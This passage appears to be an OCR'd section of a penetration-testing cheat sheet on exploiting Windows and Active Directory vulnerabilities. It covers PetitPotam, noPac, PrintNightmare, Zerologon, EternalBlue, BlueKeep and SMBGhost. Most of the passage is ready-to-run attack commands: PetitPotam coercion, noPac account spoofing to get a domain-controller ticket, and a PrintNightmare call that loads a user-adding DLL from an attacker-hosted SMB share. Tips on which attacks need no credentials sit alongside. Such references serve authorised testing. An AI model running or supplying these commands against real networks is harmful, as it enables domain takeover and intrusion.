 ## CVEs

### AD oriented

* SPNEGO RCE (CVE-2022-37958) - No public POC for the moment
* [PetitPotam pre-auth](https://github.com/topotam/PetitPotam) (CVE-2022-26925)

If the target is not patched, this CVE can be exploited without creds.

```powershell
./PetitPotam.exe -pipe all <attacker_IP> <target_IP>
```

* [NoPac](https://github.com/cube0x0/noPac) (a.k.a. SamAccountName Spoofing, CVE-2021-42278 and CVE-2021-42287)

To exploit these vulnerabilities you need to already control a computer account or have the right to create a new one.

```powershell
#Scan for the vuln
.\noPac.exe scan -domain domain.local -user user1 -pass 'password'

#Exploit it and retrieve a ST for the DC
.\noPac.exe -domain domain.local -user user1 -pass 'password' /dc dcVuln.domain.local /mAccount evilComputer /mPassword 'evilPass!' /service cifs /ptt
```

* [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare) (CVE-2021-1675 / CVE-2021-34527)

```powershell
#Load and execute a DLL hosted on a SMB server on the attacker machine
./SharpPrintNightmare.exe '\\<attacker_IP>\smb\addUser.dll' '\\<target_IP>'
```

* [Zerologon](https://www.thehacker.recipes/ad/movement/netlogon/zerologon#password-change-disruptive) (CVE-2020-1472)

The relay technique is preferable to the other one which is more risky and potentially destructive. See in the link.

* EternalBlue / Blue Keep (MS17-010 / CVE-2019-0708)

The exploits in the Metasploit framework are good for these two CVEs.

```bash
#EternalBlue
msf6 exploit(windows/smb/ms17_010_psexec) >

#Blue Keep
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) >
```

* SMBGhost (CVE-2020-0796)

**Be careful, this exploit is pretty unstable and the risk of BSOD is really important.** The exploit in the Metasploit framework is good for this CVE.
